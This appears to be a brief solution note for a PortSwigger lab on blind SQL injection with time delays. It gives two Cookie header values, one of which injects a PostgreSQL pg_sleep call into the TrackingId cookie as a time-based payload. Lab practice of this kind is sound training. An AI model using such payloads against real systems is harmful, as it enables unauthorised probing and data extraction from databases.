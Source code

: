 # Blind SQL injection with time delays
# https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

```bash
Cookie: TrackingId=NYUjfDvZrGAo9IQL'
```
```bash
Cookie: TrackingId=NYUjfDvZrGAo9IQL'||pg_sleep(10)--;
```
